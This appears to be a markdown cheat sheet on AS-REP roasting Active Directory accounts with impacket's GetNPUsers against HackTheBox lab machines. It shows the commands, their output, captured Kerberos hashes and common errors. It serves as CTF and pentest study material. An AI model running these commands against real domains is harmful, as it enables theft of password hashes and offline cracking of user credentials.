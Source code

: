 # AS-REP Roasting with GetNPUsers

- [AS-REP Roasting with GetNPUsers](#as-rep-roasting-with-getnpusers)
- [Cracking Active Directory Passwords with AS-REP Roasting](#cracking-active-directory-passwords-with-as-rep-roasting)
- [TL;DR](#tldr)
- [Works](#works)
    - [E.g. HTB Forest](#eg-htb-forest)
- [Doesn't Works](#doesnt-works)
    - [Error in searchRequest](#error-in-searchrequest)
        - [E.g. HTB Active - Require Auth (successful bind)](#eg-htb-active---require-auth-successful-bind)
- [Common Mistakes](#common-mistakes)
    - [Domain Name without "/" suffix](#domain-name-without--suffix)

# [Cracking Active Directory Passwords with AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

> ... steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.
> Using anonymous bind you can enumerate LDAP and get a list of valid usernames.
> Then, you may use the GetNPUsers script from the impacket to check which of these usernames has Kerberos pre-authentication disabled.
> This is called AS-REP-Roasting.

Box | Domain | IP 
-|-|-
Forest | htb.local | 10.10.10.161
BLACKFIELD | BLACKFIELD.local | 10.10.10.

# TL;DR
```sh
GetNPUsers htb.local/ -request
GetNPUsers htb.local/ -r
GetNPUsers htb.local/ -dc-ip $ip
GetNPUsers htb.local/ -dc-ip $ip -request
GetNPUsers htb.local/ -dc-ip $ip -r
GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
```

# Works
## E.g. HTB Forest
### HTB Forest vulnerable to ASREP, but not with HTB Active
```sh
$ impacket-GetNPUsers htb.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:09:07.367813  2023-08-02 11:47:00.513833  0x410200
```

# Doesn't Works
## Error in searchRequest
### E.g. HTB Active - Require Auth (successful bind)
HTB Active, Multimaster
NOT vulnerable to ASREP ???
```sh
$ impacket-GetNPUsers active.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```

# Common Mistakes
## Domain Name without "/" suffix
```sh
$ impacket-GetNPUsers htb.local  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Domain should be specified!
```

### Examples; HTB Forest
```sh
$ impacket-GetNPUsers htb.local/ -request  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:10:42.227380  2023-08-02 11:47:00.513833  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:282f708038e3d413dcbb692377168a0c$a57ae2b2cd5cd99d5c063f53c3321feef6b6d805cf318cadeb5be31c297541b0cfaa35b0e447eed21def3b6c9f472d64cf381b51429abab7bea41cf769be50aaeed52dcce3e8c5f9c1b6686d62d2ca217ee369c810ad582a046fa5f093fa6f9891daf3e02b6b0c576b9b28fc37c8a615d499c7303497b21873cd9bdc1d01f69d628dd66bdf63cdae985a50f0d6dd30b9ecd59e6fd56610cf2a63bf58920ceff8c28a81c8ec0aedf3e68cee83986c094af2caa38423435923fcfecea279d816b5e601436a7b10e1b966771e7f8cb3cc5f3ada3c375f2c8f2fc1b1a4d658eb28d2307331eb653a
```

### GetNPUsers htb.local/ -dc-ip $ip
```sh
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200
```

### GetNPUsers htb.local/ -dc-ip $ip -request
```sh
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200


$krb5asrep$23$svc-alfresco@HTB.LOCAL:725910cae0bc4d7afa0f322cf48c22ec$ea47da97143367e99e1f1ace94bef5f4b7d21f23e9496c27e51ae0cb498996b9581cc8fbcbe7ab10db77fbf3da7d27364f9ce868c64eed607c33df0b4d24a0e731fa9dce764e38c6dabaa9103c511771888f02e3c4e1e7bff80a245d78a4dd8e7c8dcf2e1c63e2c55932648bc09000f2e0227c5295d11845f6b0c5471e3246fa2d1ee3ba80f63eb0eef5b10067bfd1ec12f3a2dec5ada44bda4e5402bc3e25d8118e875def2b0798100065ca43f01f2823c758d0943bb54e5c8d20260b2cd4dedce4e8a4558eabee260f1008f33801e9e3bb8802c24065296c42c2c654e662450a05806dc400

C:\Tools\impacket-master\examples>
```

### Not all user
```sh
$ GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:f764e18d4bf1c000c1caba2c30a836e6$1fd948cf3592f7da94563cde9ffb2d7363c280284c1226c91a7cfa6bfeb8226fe8f2dfe2443d071e732d5cd25de24dd02024d1575b4db0353d8cbe54dcd5ca241f1a643462adaf97184522f0b2fd05fa6d19ce521b49d0a314a56f274e623caf478a7f0228eb9e5fc74bcdb98f4eaf567d4d28cfeb09dbe3291e5c5503cfd5738e9febd987cdff89d27fd2d0074eb9dc21d3fc42882b73c0b4873d8064c524e8d8f9ec57747c30deaa4a17b892d8905146c95f7429f72640ba6c179477c110ca5ca3396f6b7ed3ec77cc9de8de09435fe97e444dce3d9fc7310b6743809bf7b7193a90c45749b07fc4b3f8bc8ae9d39b41ebe7e3

"audit2020" and "svc_backup" are valid users. However, "UF_DONT_REQUIRE_PREAUTH" flag is not set for users "audit2020" and "svc_backup" so we can't get krb5asrep hash from them.

"UF_DONT_REQUIRE_PREAUTH" flag tells the Kerberos server not to require pre-authentication for the user. Without this flag set, the server will always require pre-authentication, which includes sending a krb5asrep message.
```